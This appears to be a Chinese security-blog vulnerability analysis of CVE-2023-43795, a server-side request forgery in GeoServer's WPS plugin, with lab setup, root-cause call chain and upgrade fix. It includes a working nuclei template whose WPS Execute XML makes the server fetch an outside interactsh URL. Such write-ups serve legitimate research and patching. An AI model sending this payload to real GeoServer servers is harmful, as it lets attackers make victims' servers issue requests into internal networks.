








# CVE-2023-43795 GeoServer ssrf 漏洞分析 - 先知社区

CVE-2023-43795 GeoServer ssrf 漏洞分析

- - -

# 0x00 概述

GeoServer 是一个用 Java 编写的开源软件服务器，它可以让用户共享和编辑地理空间数据，GeoServer 遵循 OpenGIS Web 服务器规范，使用开放标准发布来自任何主要空间数据源的数据。经过分析，该软件存在ssrf漏洞，攻击者可以从服务端实现任意请求伪造。

| 字段  | 值   | 备注  |
| --- | --- | --- |
| 漏洞编号 | CVE-2023-43795 |     |
| 漏洞厂商 | GeoServer |     |
| 厂商官网 | [https://geoserver.org/](https://geoserver.org/) |     |
| 影响对象类型 | Web应用 |     |
| 影响产品 | GeoServer |     |
| 影响版本 | version<2.22.5,version < 2.23.2 |     |
|     |     |

# 0x01 漏洞影响

[https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956](https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956)

-   version<2.22.5,version < 2.23.2
    
-   需要安装 wps 插件
    

# 0x02 漏洞环境

基于 [https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157](https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157) 进行搭建，只是要安装wps插件

这里版本为2.22.1

安装对应版本的wps插件，下载：[https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download，下载完之后解压](https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download%EF%BC%8C%E4%B8%8B%E8%BD%BD%E5%AE%8C%E4%B9%8B%E5%90%8E%E8%A7%A3%E5%8E%8B)

修改docker compose：

```plain
version: '3'
services:
 web:
   image: vulhub/geoserver:2.22.1
   depends_on:
    - postgres
   ports:
    - "8080:8080"
    - "5005:5005"
   volumes:
     - ./startup.sh:/startup.sh
     - ./startup2.sh:/mnt/geoserver/bin/startup.sh
     - ./gs-web-wps-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-web-wps-2.22.1.jar
     - ./gs-wps-core-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-core-2.22.1.jar
     - ./gs-wps-kml-ppio-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-kml-ppio-2.22.1.jar
     - ./gt-csv-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-csv-28.1.jar
     - ./gt-process-geometry-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-process-geometry-28.1.jar
     - ./gt-xsd-kml-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-kml-28.1.jar
     - ./gt-xsd-wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-wps-28.1.jar
     - ./net.opengis.wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/net.opengis.wps-28.1.jar
     - ./opencsv-5.0.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/opencsv-5.0.jar
     - ./serializer-2.7.2.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/serializer-2.7.2.jar
   command: bash /startup.sh
 postgres:
   image: postgis/postgis:14-3.3-alpine
   environment: 
    - POSTGRES_PASSWORD=vulhub
    - POSTGRES_DB=geoserver
```

如果要调试的话，修改一下容器中的 `/mnt/geoserver/bin/startup.sh` 文件：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124001330-3dc411d4-8a1b-1.png)

```plain
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005
```

# 0x03 漏洞验证和利用

运行nuclei：

```plain
id: CVE-2023-43795

info:
  name: GeoServer WPS - Server Side Request Forgery
  author: DhiyaneshDK
  severity: critical
  description: |
    GeoServer is an open source software server written in Java that allows users to share and edit geospatial data. The OGC Web Processing Service (WPS) specification is designed to process information from any server using GET and POST requests. This presents the opportunity for Server Side Request Forgery. This vulnerability has been patched in version 2.22.5 and 2.23.2.
variables:
  string: "{{to_lower(rand_text_alpha(4))}}"
  value: "{{to_lower(rand_text_alpha(5))}}"

http:
  - raw:
      - |
        POST {{path}} HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/xml

        <?xml version="1.0" encoding="UTF-8"?>
        <wps:Execute version="1.0.0" service="WPS"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xmlns="http://www.opengis.net/wps/1.0.0"
          xmlns:wfs="http://www.opengis.net/wfs"
          xmlns:wps="http://www.opengis.net/wps/1.0.0"
          xmlns:ows="http://www.opengis.net/ows/1.1"
          xmlns:gml="http://www.opengis.net/gml"
          xmlns:ogc="http://www.opengis.net/ogc"
          xmlns:wcs="http://www.opengis.net/wcs/1.1.1"
          xmlns:xlink="http://www.w3.org/1999/xlink"
                xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
          <ows:Identifier>JTS:area</ows:Identifier>
          <wps:DataInputs>
            <wps:Input>
              <ows:Identifier>geom</ows:Identifier>
              <wps:Reference mimeType="application/json" xlink:href="http://{{interactsh-url}}" method="GET">
                <wps:Header key="{{string}}" value="{{value}}"/>
              </wps:Reference>
            </wps:Input>
          </wps:DataInputs>
          <wps:ResponseForm>
            <wps:RawDataOutput>
              <ows:Identifier>result</ows:Identifier>
            </wps:RawDataOutput>
          </wps:ResponseForm>
        </wps:Execute>

    payloads:
      path:
        - /wms
        - /geoserver/wms

    stop-at-first-match: true
    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, 'http')
          - contains_all(to_lower(interactsh_request), '{{string}}','{{value}}')
          - status_code == 200
        condition: and
```

```plain
nuclei.exe -t CVE-2023-43795.yaml -u http://192.168.88.132:8080/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124001342-45562a0e-8a1b-1.png)

# 0x04 漏洞分析

访问 `/geoserver/wms` ，在`org.geoserver.ows.Dispatcher` 的 `service()` 中，会调用 `this.findService()` 确定要调用的service：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124001412-56da9076-8a1b-1.png)

调用 `this.execute()` ：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124001421-5cb628c0-8a1b-1.png)

来到 `org.geoserver.wps.DefaultWebProcessingService` 的 `execute()` ：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124001430-61ddfb20-8a1b-1.png)

跟进由一个 `executionManager` 负责处理 request ：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124001438-66bf4b26-8a1b-1.png)

最终调用一个 `WPSExecutionManager$Executor` 对象的 `call()` ：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124001446-6b5e0e74-8a1b-1.png)

最终触发 `org.apache.http.impl.client.CloseableHttpClient.execute()` 实现ssrf：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124001453-6f813512-8a1b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231124001459-733248c2-8a1b-1.png)

# 0x05 漏洞修复

更新版本到 >=2.22.5 ，或更新版本>= 2.23.2
